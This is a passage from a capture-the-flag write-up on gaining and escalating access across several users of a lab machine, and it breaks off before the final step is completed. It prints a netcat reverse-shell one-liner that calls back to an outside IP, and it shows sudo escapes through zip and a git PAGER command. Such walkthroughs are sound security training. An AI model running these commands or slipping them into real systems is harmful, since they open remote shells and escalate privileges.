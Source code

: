 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.54.209 1234 >/tmp/f

Add a netcat reverse shell

<img src="https://imgur.com/5s8cllq.png"/>

<img src="https://imgur.com/05W1VmY.png"/>

And boom we get a shell as user `dalia`


### What is silvio's flag?

Doing `sudo -l`

<img src="https://imgur.com/xAcO6ud.png"/>

We can see that this user can run `zip` as user `silvio`

<img src="https://imgur.com/rH3rg0t.png"/>

<img src="https://imgur.com/6kwOM7b.png"/>

silvio{657b4d058c03ab9988875bc937f9c2ef}

### What is reza's flag?

Running `sudo -l` on this user

<img src="https://imgur.com/5yCGbUT.png"/>

Now we will be able to escalate our privileges to rez through `git`

<img src="https://imgur.com/PvGii08.png"/>

```
sudo -u reza PAGER='sh -c "exec sh 0<&1"' /usr/bin/git -p help

```
<img src="https://imgur.com/6bpBaQz.png"/>

<img src="https://imgur.com/XyPatAi.png"/>

reza{2f1901644eda75306f3142d837b80d3e}

### What is jordan's flag?

<img src="https://imgur.com/jSAYt8e.png"/>

Now this time we can run a python script as user `jordan`

<img src="https://imgur.com/iUQz8pE.png"/>

On running we get an error because there is no python module named `shop`. What we can do is create a python module in the same directory where the script is and in it spawn a shell.

